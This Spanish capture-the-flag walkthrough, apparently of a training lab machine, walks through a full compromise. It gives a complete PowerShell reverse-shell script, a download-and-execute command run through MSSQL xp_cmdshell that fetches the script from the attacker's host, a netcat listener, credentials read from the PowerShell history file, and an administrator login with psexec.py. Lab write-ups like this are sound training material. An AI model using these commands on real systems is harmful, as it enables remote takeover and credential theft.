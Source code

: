 Empezamos creando el archivo malicioso: "Al que llamaremos shell.ps1"
```bash
$client = New-Object System.Net.Sockets.TCPClient("CAMBIAR POR NUESTRA IP ATACANTE",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt e.Length);$stream.Flush()};$client.Close()
```
una vez ya esta creado, montamos un servidor en python3 para postearlo:
```bash
"python3 -m http.server 80   "
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Abrimos otra terminal y nos ponemos a la escucha en el puerto 443 Indicado en el archivo malicioso
```bash
"nc -lvnp 443  "
listening on [any] 443 ...
```
Ejecutamos un comando a nivel de systema desde MYSQL con la opcion ya configurada XP_CMDSHELL
```bash
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.54/shell.ps1\");"
``` 
Recibimos la conexion en nuestro server:
```bash
"python3 -m http.server 80   "
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.27 - - [11/May/2021 16:47:12] "GET /shell.ps1 HTTP/1.1" 200 -
```
```bash
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.27] 49688
"whoami "
sql_svc
```
Obtencion de la flag USER.TXT
```bash
Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  33,822,490,624 bytes free
```
Hasta aqui seria el Acceso Inicial.
Ahora a Escalar Privilegios hasta el usuario administrador.

# Escalada de Privilegios

Encontramos en esta ruta las siguientes credenciales
```bash
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\Console Host_history.txt

"USER: administrator   "
"PASS: MEGACORP_4dm1n!!  "
```
Con la herramienta PSEXEC.PY:
```bash
┌──(pro㉿pro)-[/opt]
└─$" /usr/bin/python3 /opt/impacket/examples/psexec.py administrator@10.10.10.27    "                                                                             1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:  MEGACORP_4dm1n!!
```